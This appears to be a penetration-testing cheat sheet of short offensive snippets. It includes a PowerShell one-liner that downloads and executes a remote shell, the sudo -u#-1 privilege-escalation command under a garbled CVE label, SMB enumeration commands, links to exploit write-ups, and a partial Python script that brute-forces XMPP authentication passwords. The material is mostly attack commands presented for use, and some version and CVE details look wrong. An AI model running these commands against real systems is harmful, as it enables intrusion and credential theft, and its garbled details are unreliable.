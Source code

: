 Pull the shell:

```text
powershell.exe -c "IEX \(New-Object Net.WebClient\).DownloadString\('SHELL URL'\)"
```

### Wget Alternative for Windows in PowerShell

```text
$client = new-object System.Net.WebClient $client.DownloadFile\("URL","Local Download Path"\)
```

### CVE-2019-10-15 Sudo &lt; 1.2.28 Privilege Escalation

```text
sudo -u#-1 /bin/bash
```

### Adminer Database Management Tool Exploit Bypass Login

[https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

### Alternate data streams of empty or incomplete file on SMB

`allinfo *file*`

### SMB Recursively List Files

`recurse on`   
 `ls`

### Telnet &gt; Netcat

When connecting to a service, where possible, choose TELNET over Netcat

### /etc/update-motd.d Privilege Escalation

[https://blog.haao.sh/writeups/fowsniff-writeup/](https://blog.haao.sh/writeups/fowsniff-writeup/)

### Really Good Privilege Escalation Scripts

[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

### XMPP Authentication Crack

```python
import base64
import hashlib
import hmac
import itertools

charset = "_abcdefghijklmnopqrstuvwxyz"

initial_message = "n=,r="
server_first_message = "r=,s=,i="
server_final_message_compare = "v="
r = server_first_message[2:server_first_message.find('s=')-1]
s = server_first_message[server_first_message.find('s=')+2:server_first_message.find('i=')-1]
i = server_first_message[server_first_message.find('i=')+2:]

for passlen in range(1,3):
    print "test passlen %d" % passlen
    for k in itertools.permutations(charset, passlen):
        password = "koma" + "".join(k)
```